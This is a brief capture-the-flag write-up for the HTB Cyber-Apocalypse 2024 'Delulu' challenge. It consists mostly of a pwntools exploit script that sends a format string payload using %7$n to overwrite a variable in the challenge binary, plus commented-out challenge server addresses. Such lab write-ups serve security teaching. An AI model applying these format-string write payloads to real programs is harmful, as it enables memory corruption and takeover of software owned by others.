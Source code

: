# HTB Cyber-Apocalypse 2024 - Delulu


Delulu is a very easy difficulty challenge that features format string vulnerability, overwriting a variable's value.

<!--more-->

```python
from pwn import *
#nc 83.136.251.235 53824
# Start the process
p = process('./delulu')
#nc 94.237.49.116 55529

#p = remote('94.237.51.233',44897)
gdb.attach(p, gdbscript="b *main+134\n continue")

print(p.recv().decode())
pay = b'\xf8\xdd\xff\xff\xff\x7f'
#pay += b'\xf8\xdd\xff\xff\xff\x7f'
pay += b'%7$n'
#pay += b'%48867x%7$hn%48879x%8$hn'
# Send the payload without a newline
p.send(pay)


print(p.recvall())
```

## Explanation

Starts a local process of delulu binary for exploitation -> attaches gdb for debugging and sets a breakpoint -> creates a format string payload to write data to a specified address -> sends the payload to the process and prints the output.

